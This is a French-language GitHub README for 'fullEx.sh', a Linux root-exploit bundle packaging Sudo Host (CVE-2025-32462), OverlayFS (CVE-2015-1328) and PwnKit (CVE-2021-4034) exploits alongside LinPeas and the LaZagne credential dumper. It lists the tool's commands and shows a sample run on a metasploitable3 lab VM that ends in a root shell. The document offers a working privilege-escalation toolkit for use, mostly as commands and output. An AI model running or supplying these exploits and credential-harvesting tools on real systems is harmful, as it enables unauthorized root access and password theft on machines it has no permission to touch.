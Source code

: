 # <img width="1335" height="890" alt="image" src="https://github.com/user-attachments/assets/c947aebb-593b-4027-bc50-ac87663ff387" />


Les exploits root & outils dispo :

💀 Sudo Host

💀 OverlayFS

💀 PwnKit

🤖 LinPeas

👾 LaZagne

# ⚙️ Commandes

```
vagrant@metasploitable3-ub1404:~/fullEx$ ./fullEx.sh -help
                                                                                                    
 $$$$$$\            $$\ $$\ $$$$$$$$\           
$$  __$$\           $$ |$$ |$$  _____|          
$$ /  \__|$$\   $$\ $$ |$$ |$$ |      $$\   $$\ 
$$$$\     $$ |  $$ |$$ |$$ |$$$$$\    \$$\ $$  |
$$  _|    $$ |  $$ |$$ |$$ |$$  __|    \$$$$  / 
$$ |      $$ |  $$ |$$ |$$ |$$ |       $$  $$<  
$$ |      \$$$$$$  |$$ |$$ |$$$$$$$$\ $$  /\$$\ 
\__|       \______/ \__|\__|\________|\__/  \__|

               by M0rPH3U53
 
 
Usage: ./fullEx.sh COMMAND
 
Commands:
   -LinPeas       Execute LinPeas
   -LaZagne       Execute LaZagne
   -Overlays      Overlays64 - CVE-2015-1328
   -PwnKit64/32   PwnKit64/32 - CVE-2021-4034
   -SudoHost      Sudo Hostname - CVE-2025-32462   
   -check         Verifie si gcc est installer
   -perm          Applique les droit d'execution
   -help          Affiche les commandes
 ```
# 💲 Exemple

```
vagrant@metasploitable3-ub1404:~/fullEx$ bash fullEx.sh -perm
vagrant@metasploitable3-ub1404:~/fullEx$ ./fullEx.sh -SudoHost
[+] Sudo Host Bypass Exploit - CVE-2025-32462
[+] Discovered by: Rich Mirch
[+] Exploit by: J3rich0123
[+] Target: Linux x86_64
[+] Starting pseudo-root shell on dev.
[+] Type 'exit' or 'quit' to leave.
[+] For a real shell, type: bash
[+] Or: vim → :!bash to break into a real TTY shell
root@dev# bash -i
root@metasploitable3-ub1404:~/fullEx# id
uid=0(root) gid=0(root) groups=0(root)
```
